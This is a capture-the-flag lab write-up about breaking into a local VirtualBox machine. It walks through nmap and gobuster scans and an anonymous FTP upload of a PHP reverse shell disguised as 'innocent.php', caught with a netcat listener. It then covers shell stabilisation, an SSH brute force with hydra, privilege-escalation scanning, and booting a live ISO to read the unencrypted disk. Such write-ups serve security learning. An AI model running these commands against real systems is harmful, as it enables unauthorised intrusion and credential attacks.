 # Task 1: Gain access to a remote server.

After starting the machine, our first task is to identify the ip of the virtual machine in local subnet. I did that by simply doing an nmap scan on the local subnet, since we already know the machine will be hosting a server. There probably are better methods to do the same, but I found this one to be easy and fast in this case.  
`nmap 192.168.1.1/24`  
Within a few seconds, we see only 192.168.1.1 and 192.168.1.10 have open http ports, and since 192.168.1.1 is our router interface, the machine has to be 192.168.1.10.

Now we perform an indepth nmap scan of the ip, using service detection.  
`nmap 192.168.1.10 -sV -p-`  
~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:42:22:F8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
After running the following command, we find only open ports to be 21(ftp), 22(ssh) and 80(http). I tried finding the versions of these service on exploit-db but couldn't find a decent exploit and decided to investigate other things first. Using gobuster, we can perform directory enumeration on port 80 to find common directories.  
`gobuster dir -e -u http://192.168.1.10/ -w /usr/share/wordlists/dirb/common.txt`  
~~~
http://192.168.1.10/.hta                 (Status: 403) [Size: 277]
http://192.168.1.10/.htpasswd            (Status: 403) [Size: 277]
http://192.168.1.10/.htaccess            (Status: 403) [Size: 277]
http://192.168.1.10/files                (Status: 301) [Size: 312] [--> http://192.168.1.10/files/]
http://192.168.1.10/index.html           (Status: 200) [Size: 183]                                 
http://192.168.1.10/server-status        (Status: 403) [Size: 277] 
~~~
We found /files/ directory to be accessible by us containing a file 'site.html', which isn't particularly useful though.  
Next we investigate the ftp port and check if it allows anonymous connections:  
`ftp 192.168.1.10`  
~~~
Connected to 192.168.1.10.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.10]
Name (192.168.1.10:tinytrebuchet): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp            93 Oct 10 15:02 site.html
~~~
As we can see, the ftp allows anonymous access into the /files/ directory and we can now upload any file via ftp to the server and run it from /files/ on port 80. To get into the server, we will upload a simple php-reverse-shell on port 8888.  
`cp /usr/share/webshells/php/php-reverse-shell.php ~/innocent.php`  
Then we modify the reverse-shell script and change ip to our host os ip (192.168.1.6 for our case found using `ip addr`) and port to 8888. Then finally upload it the server using the ftp connection.  
`put innocent.php`  
~~~
local: innocent.php remote: innocent.php
200 PORT command successful
150 Opening BINARY mode data connection for hash.txt
226 Transfer complete
5493 bytes sent in 0.00 secs (7.9493 kB/s)
~~~
Now, we open a netcat listener on our host os at port 8888 using and then execute the reverse-shell from the http://192.168.10/files/ directory.
We should get a successful connect on our host os:
`nc -lvp 8888`
~~~
listening on [any] 8888 ...
192.168.1.10: inverse host lookup failed: Unknown host
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.10] 37384
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:56:34 up 39 min,  0 users,  load average: 0.08, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
A good practice is to stabilize the reverse shell, which can be done easily if the server has python installed, that way we have support for tab-autocompletion and Ctrl-C doesn't close our netcat listener. This can be done by executing the following commands:  
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ export TERM=xterm
```
Then, we press Ctrl-Z on our keyboard to background the reverse shell, modify the stty on your host os, and then foreground:  
`stty raw -echo; fg`  
After this, we should have a fully stabilized reverse-shell.  

We are logged in as www-data: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`, which doesn't have a lot of permissions, so I thought we might need to perform privilege escalation later. But first, we checked the machine for some basic info.  
`cat /etc/passwd`
~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ftp:x:1001:1001:,,,:/home/ftp:/bin/bash
colord:x:110:119:colord colour management daemon,,,:/var/lib/colord:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
dk:x:1000:1000:dk:/home/dk:/bin/bash
~~~
`cd /home/; ls -al`
~~~
drwxr-xr-x  3 root root   4096 Oct 10 08:55 .
drwxr-xr-x 23 root root   4096 Oct 10 09:17 ..
-rwxr-xr-x  1 root root 211528 Aug  5 04:35 .fishy.vt
-rw-r-----  1 root root  16384 Aug  5 08:08 .fishy.vt.swp
drwxr-x---  4 dk   dk     4096 Oct 15 20:48 dk
-rwxr-xr-x  1 root root     32 Aug  5 08:06 runme.sh
~~~
We see the machine has another user named 'dk' and we don't have access to his home directory. The key should be in there somewhere. There's also a runme.sh script which just cats .fishy.vt slowly using pv, as an asciimation. However the file has an interesting 32 digit base64 encoded string written in it on top : 'mpthRrM4f0XPQem4ISiZL3kxDgMLrX6S'. I checked if it's the password of any user, dk or root, by doing `su <user>` and putting this as password, but no use. I also tried to bruteforce the password by using hydra on ssh port, but without any success (the connection seemed to be possible throttled).  
`hydra -l dk -P /usr/share/wordlists/rockyou.txt 192.168.1.10 -t 4 -vV -I -f ssh`  
I decided to investigate for privilege escalation on the machine. I used the 'linpeas.sh' and 'LinEnum.sh' scripts available on github to find any vulnerablites. I put them in the /files/ directory using the ftp connection from host os, and then copied them from /var/www/html/files/ to /tmp/ on the server. I checked for any exploitable SUID file or crontabs or anyother vulnerablity in general but couldn't find anything much useful and exploitable. I even tried to look for kernerl exploits from exploit-db but with no success. After a lot of thinking and finding, and as I was running short on time, I finally gave up on this.  


## Method 2
I actually thought of this method immediately when I saw the ova file, but decided to save it for last, as it doesn't involving finding vulnerablites in the server, but is rather a dirty trick, but it still allowed me to get the key in under 5 mins, so I thought to share it here.  
The plan was, if the machine has unencrypted file system, we could simple boot from a live-usb to access the filesystem and get the key from dk's home directory. I used my handy arch-iso (I use arch btw 😛), put that into virtual machine's storage devices under 'Controller: IDE', marked it as 'Live CD/DVD' on right pane, saved the changes and rebooted the machine. As expected, the machine booted from live arch iso, and we could easily get the file by mounting the file system.  

![Screenshot from 2021-10-18 12-08-12](https://user-images.githubusercontent.com/73381089/137680984-ff0af756-6436-4bde-b373-a02762fa61b3.png)
